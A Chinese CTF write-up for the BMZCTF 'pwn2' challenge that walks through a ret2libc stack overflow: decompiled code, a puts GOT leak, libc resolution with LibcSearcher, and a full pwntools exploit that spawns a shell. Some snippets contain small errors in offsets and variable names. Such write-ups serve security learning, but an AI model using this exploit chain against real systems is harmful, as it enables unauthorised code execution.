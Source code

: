 题目链接：
==
http://www.bmzclub.cn/challenges#pwn2
前言
--

- 从BMZCTF中的一道题复习一下ret2libc

IDA-main：
==
```C
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(*(_QWORD *)&argc, argv, envp);
  bmzctf();
  puts("Welcome to BMZCTF");
  puts("Who are you?");
  if ( check() )
    puts("Only admin can attack me");
  else
    puts("Welcome");
  return 0;
}
```

IDA-check：
--

```c
int check()
{
  char buf; // [rsp+0h] [rbp-30h]

  read(0, &buf, 0x400uLL);
  return strcmp(&buf, "21232F297A57A5A743894A0E4A801FC3");
}
```

Leak-libcbase & system/binsh addr
--
漏洞点应该在check函数里，本题没有gadgets，没有int 80，只有ret2libc一条路了
根据ret2libc的流程，我们需要获取:
	1.**libc基址**
	2.**system str_bin_sh的地址**
看到函数里有puts，就用puts来leak出puts在got表中的位置，计算出libc基址和system str_bin_sh即可
```python
libc_base = leak-libc.dump('puts')
system = libc_base + libc.dump('puts')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
```

现在开始搞基吧...
check函数中buf变量的偏移是0x30，read是0x400所以有很大空间给我们构造payload
```python
payload ="a" * 0x38 +  pop_rdi_ret + elf.got['puts'] + elf.plt['puts'] + main  
```
注意这里要回到main，因为我们leak完要重新走一遍流程
获取基址：
```python
puts_addr = u64(recvuntil('\x7f')[-6::].ljust(8,'\x00'))
```
至于为什么要这样写？大牛们都这么写的。
计算基：
```python
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
```
至此基就搞完了(逃

execute system bin_sh
---
到这里就是基本操作了
```python
payload = ""
payload += "a" * 38
payload += pop_rdi_ret
payload += bin_sh
payload += system
payload += p64(0xdeadbeef)
```

exp
---
```python
from pwn import *

from LibcSearcher import *

proc = process("./pwn2")

elf = ELF("./pwn2")

context.log_level="debug"

padding = "a"*0x30+"b"*8

pop_rdi_ret = 0x400833

mainaddr = 0x40076D

payload = ""

payload += padding

payload += p64(pop_rdi_ret)

payload += p64(elf.got['puts'])

payload += p64(elf.plt['puts'])

payload += p64(mainaddr)

proc.sendlineafter("Who are you?",payload)

_libc_start_main = u64(proc.recvuntil("\x7f")[-6:].ljust(8,"\x00"))

libc = LibcSearcher("puts",_libc_start_main)

libcOffset = _libc_start_main - libc.dump('puts')

system = libcOffset + libc.dump('system') 

_bin_sh = libcOffset + libc.dump('str_bin_sh')

print hex(_libc_start_main-_bin_sh)

payload = ""

payload += padding

payload += p64(pop_rdi_ret)

payload += p64(_bin_sh)

payload += p64(system)

payload += p64(0xdeadbeef)

proc.sendlineafter("Who are you?",payload)

proc.interactive()


```
